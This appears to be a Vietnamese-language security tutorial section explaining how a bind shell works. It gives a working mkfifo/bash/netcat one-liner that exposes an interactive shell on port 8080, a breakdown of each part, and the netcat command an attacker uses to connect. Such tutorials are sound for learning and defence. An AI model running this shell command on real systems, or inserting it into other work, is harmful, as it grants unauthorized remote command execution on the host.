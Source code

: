 ###### **Vỏ ràng buộc**

Như tên gọi cho thấy, shell bind sẽ liên kết một cổng trên hệ thống bị xâm phạm và lắng nghe kết nối; khi kết nối này xảy ra, nó sẽ phơi bày phiên shell để kẻ tấn công có thể thực thi lệnh từ xa.

Phương pháp này có thể được sử dụng khi mục tiêu bị xâm phạm không cho phép kết nối đi, nhưng phương pháp này ít phổ biến hơn vì nó cần phải hoạt động và lắng nghe các kết nối, điều này có thể dẫn đến việc bị phát hiện.



###### **Cách thức hoạt động của bind shell**

Thiết lập Bind Shell trên mục tiêu



Hãy tạo một shell bind. Trong trường hợp này, kẻ tấn công có thể sử dụng lệnh như bên dưới trên máy mục tiêu.

**rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>\&1 | nc -l 0.0.0.0 8080 > /tmp/f**

Giải thích về Tải trọng

* **rm -f /tmp/f**- Lệnh này xóa bất kỳ tệp đường ống có tên nào hiện có tại **/tmp/f/**. Điều này đảm bảo rằng tập lệnh có thể tạo đường ống có tên mới mà không có xung đột.
* **mkfifo /tmp/f**- Lệnh này tạo một đường ống được đặt tên, hay FIFO, tại **/tmp/f**. Đường ống được đặt tên cho phép giao tiếp hai chiều giữa các tiến trình. Trong bối cảnh này, nó hoạt động như một đường dẫn cho đầu vào và đầu ra.
* **cat /tmp/f**- Lệnh này đọc dữ liệu từ đường ống được đặt tên. Lệnh này chờ dữ liệu đầu vào có thể được gửi qua đường ống.
* **| bash -i 2>\&1**- Đầu ra của  **cat** được chuyển đến một phiên bản shell ( **bash -i**), cho phép kẻ tấn công thực thi các lệnh một cách tương tác. **2>\&1** Chuyển hướng lỗi chuẩn đến đầu ra chuẩn, đảm bảo thông báo lỗi được trả về cho kẻ tấn công.
* **| nc -l 0.0.0.0 8080**- Khởi động **Netcat** ở chế độ lắng nghe **( -l)** trên tất cả các giao diện **( 0.0.0.0)** và cổng **8080**. Shell sẽ bị lộ trước kẻ tấn công khi chúng kết nối đến cổng này.
* **>/tmp/f** Phần cuối cùng này gửi đầu ra của lệnh trở lại đường ống được đặt tên, cho phép giao tiếp hai chiều.

Lệnh trên sẽ lắng nghe các kết nối đến và hiển thị **shell bash**. Lưu ý rằng các cổng dưới **1024** sẽ yêu cầu **Netcat** được thực thi với quyền cao hơn. Trong trường hợp này, sử dụng cổng **8080** sẽ tránh được điều này.



###### **Kẻ tấn công kết nối với Bind Shell**

Bây giờ máy đích đang chờ kết nối đến, chúng ta có thể sử dụng Netcat một lần nữa bằng lệnh sau để kết nối.

**nc -nv TARGET\_IP 8080**

Giải thích lệnh

* **nc**- Lệnh này sẽ gọi **Netcat** để thiết lập kết nối tới mục tiêu.
* **-n**- Vô hiệu hóa phân giải **DNS** , cho phép **Netcat** hoạt động nhanh hơn và tránh tra cứu không cần thiết.
* **-v**- Chế độ chi tiết cung cấp thông tin chi tiết về quá trình kết nối, chẳng hạn như thời điểm kết nối được thiết lập.
* **TARGET\_IP**- Địa chỉ IP của máy đích nơi shell bind đang chạy.
* **8080**- Số cổng mà shell bind lắng nghe.
